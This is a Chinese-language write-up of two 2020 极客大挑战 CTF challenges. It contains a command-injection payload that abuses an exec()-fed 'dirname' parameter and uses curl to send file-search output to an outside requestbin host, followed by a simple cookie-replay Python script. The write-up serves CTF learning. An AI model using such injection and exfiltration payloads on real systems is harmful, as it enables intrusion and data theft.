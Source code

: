 进入后，点击教案进入一个目录，这里的文件名为：**listdir.php**

![2020极客大挑战-知x堂](https://antlers.oss-cn-hangzhou.aliyuncs.com/blog_images/CTF/2020%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98-%E7%9F%A5x%E5%A0%821.png)

进入flag.php，发现url是**phpfile=**，而且后面直接带了一个文件就能打开查看内容了，而且页面提示看目录文件，于是更改为**listdir.php**就可以看到内容了

![2020极客大挑战-知x堂](https://antlers.oss-cn-hangzhou.aliyuncs.com/blog_images/CTF/2020%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98-%E7%9F%A5x%E5%A0%822.png)

文件打开后可以看到目录页面下的源代码了

![2020极客大挑战-知x堂](https://antlers.oss-cn-hangzhou.aliyuncs.com/blog_images/CTF/2020%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98-%E7%9F%A5x%E5%A0%823.png)

**注意：** 

这个目录界面有个$_GET['dirname']参数被传进去，而且直接放到了exec()中，我们都知道exec()允许执行一个外部程序



同时，这里还引用了一个waf.php，那我们再看一下这个waf

![2020极客大挑战-知x堂](https://antlers.oss-cn-hangzhou.aliyuncs.com/blog_images/CTF/2020%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98-%E7%9F%A5x%E5%A0%824.png)

这个waf里面设置了过滤

**总结一下，我们可以利用dirname参数来进行代码执行，需要绕过一些东西**

我们可以尝试注入代码，可是没有回显



这里推荐使用一个在线网站，[对URL分析收集对其发出的请求](http://requestbin.net/)

原理是让靶机访问这个url，这个网站会对靶机的请求包做一个分析，同时返回给我们一个数据

这就是我们最后的payload

```
/listdir.php?dirname=; curl http://requestbin.net/r/wo949nwo?inspect=`find / -name 'flag'`
```

![2020极客大挑战-知x堂](https://antlers.oss-cn-hangzhou.aliyuncs.com/blog_images/CTF/2020%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98-%E7%9F%A5x%E5%A0%825.png)

找到了路径，直接拿去打开就好了

![2020极客大挑战-知x堂](https://antlers.oss-cn-hangzhou.aliyuncs.com/blog_images/CTF/2020%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98-%E7%9F%A5x%E5%A0%826.png)



### 忏悔的刘壮

#### 考点：python脚本编写

提示：

> 刘壮天天干坏事，这次终于让我逮到他在python教堂忏悔了

让我们回答一个随机答案，每忏悔一次成功就记录一次，需要我们一直忏悔20次，但给我们的时间只有3秒，所以我们只能写脚本来忏悔，需要带上上一次的cookie

```python
import requests
def request_func(req):
    cookie_new = requests.utils.dict_from_cookiejar(req.cookies)
    req = request.post("http://120.79.197.4:5000/check",data=cookie_new)
    result = req.text
    print(result)
    return req

request=requests.session()
url = "http://120.79.197.4:5000/"
req = request.get(url)
cookie = requests.utils.dict_from_cookiejar(req.cookies)
req2 = request.post("http://120.79.197.4:5000/check",data=cookie)
result = req2.text
```